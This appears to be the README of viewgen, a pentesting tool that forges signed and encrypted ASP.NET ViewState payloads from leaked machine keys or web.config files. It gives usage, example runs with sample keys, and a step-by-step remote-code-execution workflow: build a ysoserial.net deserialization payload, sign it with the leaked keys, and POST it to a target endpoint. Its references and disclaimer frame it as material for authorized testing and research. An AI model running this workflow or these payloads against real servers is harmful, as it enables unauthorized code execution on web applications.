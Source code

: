 # Viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

### Installation

**Requirements**: Python 3

`pip3 install --user --upgrade -r requirements.txt` or `./install.sh`

**Docker**

`docker build -t viewgen .` or `docker pull 0xacb/viewgen`

---------------

### Usage
```
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER]
               [--viewstateuserkey VIEWSTATEUSERKEY] [-c COMMAND] [--decode]
               [--guess] [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-u] [-e] [-f FILE] [--version]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

options:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --viewstateuserkey VIEWSTATEUSERKEY
                        ViewStateUserKey CSRF value
  -c COMMAND, --command COMMAND
                        command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -u, --urlencode       URL encode viewstates
  -e, --encrypted       ViewState is encrypted
  -f FILE, --file FILE  read ViewState payload from file
  --version             show viewgen version
  --path PATH           target web page(only for .NET >= 4.5)
  --apppath APPPATH     application path(only for .NET >= 4.5)
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --check -e --vkey '6F16768FDF1E1E4A23CE58625C761F55FD13A1681F7AE3BDB4BB8F99874C7485' --dkey 'F42E58ECE66428868A69ED1F5B6721364A3FC3C490C7FFAAE1EAE96BBA45C88D' "EZgmsZEuppW0eZTumHR9toJTc4MDPJ0CzjIVt6u3FO8TQLDiFbGqvHwKAz72nGrhrCZP3rYE1uXqeU160jZo7xY1v48MACMKLrPiljD3yaM=" --dalg AES --valg SHA256 --decode --path '/default.aspx' --apppath '/'
[+] ViewState
(('91245346', None), None)
[+] Signature: ac264fdeb604d6e5ea794d7ad23668ef1635bf8f0c00230a2eb3e29630f7c9a3
[+] Signature match

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a `POST` request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**
- All contributors

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints

---------------

### ⚠ Legal Disclaimer ⚠

This project is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this tool.
